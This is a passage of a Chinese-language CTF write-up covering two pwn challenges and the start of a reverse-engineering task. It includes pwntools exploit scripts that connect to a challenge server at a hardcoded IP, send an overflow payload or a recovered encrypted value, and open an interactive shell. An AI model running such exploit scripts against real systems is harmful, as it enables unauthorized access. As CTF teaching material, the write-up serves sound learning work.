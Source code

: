 ```python
    p = remote('8.147.132.32', 41160)

p.recvuntil(b'readin: ')
p.sendline(b'-1')
p.recvuntil(b'say: ')

payload = b'a' * 0x30
payload += b'114515'

p.sendline(payload)
p.interactive()
```
![[Pasted image 20240929121418.png]]

### gdb
![[Pasted image 20240929121602.png]]
题意为将``v10``的数据按某种规则加密，我们输入的字符与加密后的字符一致即可获取`shell`
在`gdb`中可以看到加密前的数据为`0d000721`
![[Pasted image 20240929121931.png]]![[Pasted image 20240929122007.png]]
数据加密后为`0x4557455355431d5d`,输入即可
exp:
```python
import struct
from pwn import *

encrypted = 0x4557455355431d5d

local = False
if local:
    p = process('./gdb1')
    pwnlib.gdb.attach(p, 'b printf')
else:
    p = remote('8.147.132.32', 12202)

p.recvuntil(b'encrypted data: ')

byte_array = struct.pack('>Q', encrypted)

p.sendline(byte_array[::-1])
p.interactive()
```
![[Pasted image 20240929122151.png]]

## RE

### begin
考验对ida的使用
![[Pasted image 20240929123535.png]]
双击`flag_part1`，然后选中`db`按`a`可以获取第一部分`flag`
![[Pasted image 20240929123426.png]]
`shift+F12`,查看所有字符，可以找到第二部分`flag`
![[Pasted image 20240929123640.png]]
双击此处
![[Pasted image 20240929123716.png]]
![[Pasted image 20240929123745.png]]
然后选中对应的名称按`x`